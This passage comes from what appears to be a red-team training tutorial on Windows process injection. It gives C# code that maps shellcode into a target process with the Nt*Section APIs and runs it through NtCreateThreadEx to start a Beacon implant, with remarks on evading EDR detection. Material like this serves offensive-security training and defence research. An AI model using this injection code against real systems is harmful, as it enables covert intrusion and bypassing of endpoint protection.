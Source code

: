 ```cs
    0,
    0x20);      // PAGE_EXECUTE_READ
```

4.  Create a new remote thread to execute the shellcode.
```cs
// Shellcode is now in the target process, execute it (fingers crossed)
Native.NtCreateThreadEx(
    out _,
    0x001F0000, // STANDARD_RIGHTS_ALL
    IntPtr.Zero,
    target.Handle,
    remoteBaseAddress,
    IntPtr.Zero,
    false,
    0,
    0,
    0,
    IntPtr.Zero);
```

You should now have a Beacon running in the target process.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/ntmapviewofsection/beacon.png)


 ##### Think of all the APIs we've covered like items on a menu.  You can mix and match them to create your own style of injection.  For instance, you could spawn a process in a suspended state, use the Nt*Section APIs to map and copy the shellcode, and then QueueUserAPC or NtQueueApcThread to execute it.

# Final Code

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

// NtCreateSection, NtMapViewOfSection, NtUnMapViewOfSection, NtClose
/**
High level overwiew of the technique:

	Create a new memory section with RWX protection
	Map a view of the previously created section to the local malicious process with RW protection
	Map a view of the previously created section to a remote target process with RX protection. Note that by mapping the views with RW (locally) and RX (in the target process) we do not need to allocate memory pages with RWX, which may be frowned upon by some EDRs.
	Fill the view mapped in the local process with shellcode. By definition, the mapped view in the target process will get filled with the same shellcode
	Create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode 

 **/
namespace NtMapViewOfSection
{
    class Program
    {
```